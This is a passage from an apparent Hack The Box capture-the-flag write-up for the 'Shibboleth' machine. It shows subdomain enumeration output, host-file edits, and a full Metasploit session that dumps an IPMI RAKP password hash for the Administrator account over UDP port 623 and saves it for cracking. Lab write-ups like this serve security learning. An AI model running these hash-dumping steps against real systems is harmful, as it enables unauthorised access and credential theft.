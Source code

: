 ```bash

monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30]
```

Voila!! we have some subdomains active , let's add them to /etc/hosts

```bash
└─$ sudo nano /etc/hosts
#htb machines
10.129.99.116 shibboleth.htb zabbix.shibboleth.htb monitor.shibboleth.htb monitoring.shibboleth.htb
```

All the three subdomain had a login page ![image](https://user-images.githubusercontent.com/56447720/141722392-9fbebb36-f73a-4238-8b4b-a59ea0642bb0.png)

Hmmmmmm zabbix

> Zabbix is an open-source monitoring software tool for diverse IT components, including networks, servers, virtual machines and cloud services. Zabbix provides monitoring metrics, among others network utilization, CPU load and disk space consumption

## Get login details

So I tried with some Web Attacks to login but none of them worked, The **UDP port 623** will get us some hashes

#### Learn

* The UDP port 623 is vulnerable : https://book.hacktricks.xyz/pentesting/623-udp-ipmi

#### Login creds

* I've used the Metasplot way to get the hashes because it was easy

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.99.116
rhosts => 10.129.99.116
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_JOHN_FILE zabbixlogin
OUTPUT_JOHN_FILE => zabbixlogin
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > exploit

[+] 10.129.99.116:623 - IPMI - Hash found: Administrator:97c8d75502010000d824a6d87cc8260b6a7a8ddf0282eadc5ebab7e75f2c8f7ed1a6429124bdf9b3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:84568da58ac1bb73a12d71bb0ea9d08a470ebd31
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > cat zabbixlogin
[*] exec: cat zabbixlogin

10.129.99.116 Administrator:$rakp$97c8d75502010000d824a6d87cc8260b6a7a8ddf0282eadc5ebab7e75f2c8f7ed1a6429124bdf9b3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$84568da58ac1bb73a12d71bb0ea9d08a470ebd31

```
